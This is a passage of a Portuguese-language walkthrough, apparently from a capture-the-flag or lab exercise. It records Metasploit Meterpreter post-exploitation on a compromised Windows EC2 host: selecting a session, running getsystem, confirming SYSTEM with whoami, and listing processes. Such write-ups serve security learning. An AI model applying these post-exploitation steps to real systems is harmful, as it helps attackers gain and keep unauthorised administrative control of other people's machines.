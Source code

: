 - Depois disso eu selecionei a seção usando ````sessions <número sessão>```

- Rodei o seguinte comando ```getsystem```

```Already running as SYSTEM```

- Depois rodei ```whoami```

```
nt authority\system
```

- No meterpreter, eu listei todos os processos que estavam rodando usando ```ps```

```
Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 540   532   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 544   684   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 588   532   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 600   580   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 640   580   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 684   588   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 708   588   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 712   684   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 716   588   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 820   684   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 892   684   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 940   684   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1008  640   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 1120  684   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1164  524   powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1212  684   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 1344  684   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1380  684   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE
 1436  684   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1500  684   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Xentools\LiteAgent.exe
 1612  684   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1880  1164  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\syswow64\WindowsPowerShell\v1.0\powershell.exe
 1924  684   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE
 2108  820   WmiPrvSE.exe
 2196  540   conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 2204  1880  cmd.exe               x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\cmd.exe